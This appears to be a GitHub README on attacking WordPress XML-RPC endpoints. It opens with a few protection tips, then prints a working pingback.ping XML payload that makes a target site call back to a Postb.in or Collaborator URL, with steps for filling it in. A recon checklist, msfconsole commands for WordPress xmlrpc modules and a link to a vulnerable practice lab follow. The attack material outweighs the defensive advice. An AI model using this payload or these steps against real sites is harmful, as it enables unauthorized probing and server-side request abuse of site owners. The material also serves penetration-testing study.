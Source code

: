 
### **How to Protect Against XML-RPC Attacks**  
- **Disable XML-RPC** if you don’t need it.  
- Use firewalls or security plugins to block bad requests.  
- Regularly update your software and monitor server activity.

---

### dorks:
https://github.com/rm-onata/xmlrpc-attack

### Method 

### **Pingback.ping XML-RPC Payload**
```<?xml version="1.0" encoding="utf-8"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value><string>https://www.postb.in/YOUR_BIN_URL</string></value>
    </param>
    <param>
      <value><string>https://www.TARGET.URL</string></value>
    </param>
  </params>
</methodCall>

```

### **Usage:**
1. Replace `https://www.postb.in/YOUR_BIN_URL` with your Postb.in or Collaborator URL to capture requests.  
2. Replace `https://www.TARGET.URL` with the target URL you want to test.  

This payload sends a pingback request to the target, which is logged by the Postb.in URL for analysis.

---
## Summary
- Find all the subdomain of the target domain
- Find all the IPs related
- Hunt on those subdomain & IPs
- Try to find sensitive directories
- Try to find vulnerable plugins & themes
- Use CMSMap & WPSCAN tool along with NMAP

---
### msfconsole

commands 
```
msfconsole
search type: auxiliary wordpress xmlrpc
use MODULE_PATH
info  // (info use for all information about module)
show option
set RHOST website_name 
set RPORT 443 
```
---
### LAB
https://github.com/vavkamil/dvwp